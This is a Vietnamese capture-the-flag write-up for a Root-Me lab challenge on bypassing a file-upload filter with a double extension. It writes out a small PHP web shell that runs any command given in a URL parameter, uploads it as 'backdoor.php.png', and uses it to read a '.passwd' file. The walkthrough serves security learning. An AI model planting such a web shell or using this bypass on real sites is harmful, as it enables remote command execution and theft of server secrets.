 # File upload - Double extensions

[Link](http://challenge01.root-me.org/web-serveur/ch20/)

![1](image/1.png)

- Mở đầu trang là 1 đống page nhỏ lẻ, thôi thì đề nói là `File upload` nên qua page `upload` coi thôi :v

![2](image/2.png)

![3](image/3.png)

- Có 1 **form upload file** ở đây, thử upload lên 1 file ảnh bình thường mà đề cho phép thử xem

![4](image/4.png)

- Upload hoạt động tốt, còn cho ta cả link để file ảnh để đâu luôn

- Thử viết 1 file `backdoor.php` rồi cố gắng gửi lên server xem sao:

```
<?php
    $flag = $_GET['flag'];
    system("$flag");
?>
``` 

- Tạo 1 file `backdoor.php` đơn giản như vậy là đủ. Biến `$flag` nhận query từ link dựa vào hàm `$_GET['flag']`, hàm `system` thực thi nó

- Đề đã viết rõ là **Double extensions**, thì bây giờ làm theo đề thôi. Thêm 1 extensions hợp vào file `backdoor.php` thành `backdoor.php.png`

- Đọc thêm về kỹ thuật **Double extensions** và các kỹ thuật khác: [Link](https://www.owasp.org/index.php/Unrestricted_File_Upload)

- Thử up file `backdoor.php.png` lên server và thành công như mong đợi

![5](image/5.png)

![6](image/6.png)

- Vấn đề là bây giờ có thể **injection** câu lệnh vào server thông qua file `backdoor.php.png` mới gửi lên được không. Th với lệnh đơn giản xem nào
`?flag=id`

![7](image/7.png)

- Thành công mỹ mãn. OK, hint đề cho là:

```
Your goal is to hack this photo galery by uploading PHP code.
Retrieve the validation password in the file .passwd at the root of the application.
```

- Ta đã thành công bước đầu, bước sau đề nói rằng **password** nằm trong file `.passwd`

- Thử `cat .passwd` hoặc `cat ../.passwd` hoặc ... xem nào. Cuối cùng cũng thành công với payload:

```
cat ../../../.passwd
```

![8](image/8.png)


